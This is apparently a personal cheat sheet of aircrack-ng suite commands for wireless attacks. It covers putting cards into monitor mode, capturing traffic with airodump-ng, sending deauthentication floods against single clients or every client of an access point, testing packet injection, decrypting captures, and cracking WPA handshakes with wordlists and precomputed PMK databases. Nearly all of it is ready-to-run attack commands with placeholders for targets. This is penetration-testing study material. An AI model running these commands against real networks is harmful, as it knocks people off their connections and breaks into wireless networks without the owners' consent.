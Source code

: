 # airmon-ng
```bash
# List interfaces
sudo airmon-ng  

# List programs that can interfere with aircrack-ng suite
sudo airmon-ng check 

# Kill processes that can interfere with aircrack-ng suite
sudo airmon-ng check kill

# Create an interface (wlan0mon) in monitor mode from an existing one (wlan0)
sudo airmon-ng start wlan0

# Stop monitor mode
sudo airmon-ng stop wlan0mon

# Start monitor mode only on channel 2 (only do this when the tool that will be used next doesn't change channels itself)
sudo airmon-ng start wlan0 2

# manually set channel
iw dev wlan0 set channel 13

# Check that we changed the channel correctly
sudo iw dev wlan0mon info

# verbose and debug mode
sudo airmon-ng --verbose
sudo airmon-ng --debug

```


Even if we don't see connected clients, send deauth packets against the different networks, with airodump listening in the specific channel (so that we don't miss reauth attempts if we are scanning other channels at that moment)


#### airodump-ng
```bash
# Specify the channel where airodump listens
airodump-ng --channel 11 --bssid <bssid>

# listen to a single bssid and write output to a file (it creates several files with different formats)
airodump-ng --channel 11 --bssid <bssid> --write <file name>

# scan both 2.4 and 5 GHz simultaneously
airodump-ng wlan0 --band abg

# load capture file in airodump
airodump-ng -r <file.cap>

# show WPS status for WPA networks
airodump-ng wlan0 --wps
```


#### aireplay-ng
```bash
# deauth a client (1000000 is a large number of packets, to keep the deauth attack working for a while):
sudo aireplay-ng --deauth 4 -a <bssid> -c <client_MAC> wlan0mon

# To background the command and don't see output
sudo aireplay-ng --deauth 4 -a <bssid> -c <client_MAC> wlan0mon &> /dev/null &

# with "jobs" we can see the jobs backgrounded with &. each has an ID
jobs

# kill all backgrounded aireplay processes.
killall aireplay-ng 

# kill only the first process in the "jobs" list:
kill %1

# To deauth every client connected to a BSSID don't specify a client <MAC>
aireplay-ng --deauth 4 -a <bssid> wlan0mon &> /dev/null &

# check if we can inject in visible APs
sudo aireplay-ng -9 wlan0mon 

# check if we can inject in a specific AP
sudo aireplay-ng -e <ap_name> -a <MAC> wlan0mon

# Same as above, but without expecting to receive probes
sudo aireplay-ng -e <ap_name> -a <MAC> -D wlan0mon

# if we have two wifi cards, wlan0mon and wlan1mon, card-to-card test, to make sure they can inject. if it says (5/7 error, still can be used to attack an AP)
sudo aireplay-ng -9 -i wlan1mon wlan0mon

```

<font color="red">Sometimes aireplay-ng says that he can't find the BSSID, that's because it's not using the appropriate channel. For that, run airodump-ng in the appropriate channel before aireplay-ng, or set the channel with 
"iw dev wlan0 set channel 13"</font>


#### airdecap-ng
```bash
# Keep the packets targeted to a specific <BSSID> and remove the rest from a cap file (creates a new file)
airdecap-ng -b <MAC> file.pcap

# decrypt saved traffic with a passphrase (check that the passphrase works, we may capture failed logins)
airdecap-ng -b <bssid> -e <essid> -p <pass> file.pcap
```


#### aircrack-ng
```bash
#benchmark (dice k/s, que es el numero de palabras por segundo que puede crackear)
aircrack-ng -S  

# DON'T use a dictionary for WEP files!!!!
aircrack-ng wep.cap

# crack a handshake saved in a cap file:
aircrack-ng -w <path to wordlist> -e <ESSID> -b <ap bssid> file.pcap
aircrack-ng -w /usr/share/john/password.lst -e <ESSID> -b <ap bssid> file.cap

#crack using a db created with airolib (precomputed PMKs)
aircrack-ng -r wifu.sqlite wpa1-01.cap
```
<font color=red>If in a capture file an AP has hidden name but we find it in another way, we need to pass both arguments to aircrack-ng, -b and -e, so that it can match a BSSID to an ESSID</font>


#### airgraph-ng
Creates graphs of APs and stations. Colors:
- green -> WPA
- yellow -> WEP
- red -> open
- black -> desconocido el cifrado

```bash
#CAPR: client to access point relationship. Provide a csv captured by airodump
airgraph-ng -i dump.csv -o file.png -g CAPR

# CPG: client probe graph -> shows relations (connections) from clients to APs
airgraph-ng -i dump.csv -o file.png -g CPG
```


#### airolib-ng
manages password lists in SQLite (calculating pairwise master key (PMK) is slow, but it is constant for an AP. precomputing it saves time later).

```bash
# create a text file containing the ESSID of the target AP
echo wifu > essid.txt

# import the text file into an airolib-ng database
airolib-ng wifu.sqlite --import essid essid.txt

# info about database (ESSIDs and stored passwords)
airolib-ng wifu.sqlite --stats

# import a dictionary of passwords (ignores those shorter than 8 chars and larger than 63 chars, since they are not valid WPA passphrases)
airolib-ng wifu.sqlite --import passwd /usr/share/john/password.lst

# calculate the PMK corresponding to each inported password
airolib-ng wifu.sqlite --batch

#crack using a db
aircrack-ng -r wifu.sqlite wpa1-01.cap
```
